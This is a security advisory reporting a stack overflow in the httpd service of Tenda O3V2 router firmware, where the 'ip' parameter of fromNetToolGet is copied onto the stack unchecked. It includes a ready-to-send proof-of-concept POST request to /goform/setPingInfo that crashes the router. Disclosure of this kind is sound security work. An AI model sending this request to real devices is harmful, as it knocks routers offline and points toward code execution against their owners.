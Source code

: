 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `fromNetToolGet` function, `ip` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ip` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ip` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ip` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/setPingInfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 269
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

pingMode=ping&action=&hop=1&domain=&ip=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&packetSize=&pro_ver=&timeout=
```



## Result

The target router crashes and cannot provide services correctly and persistently.
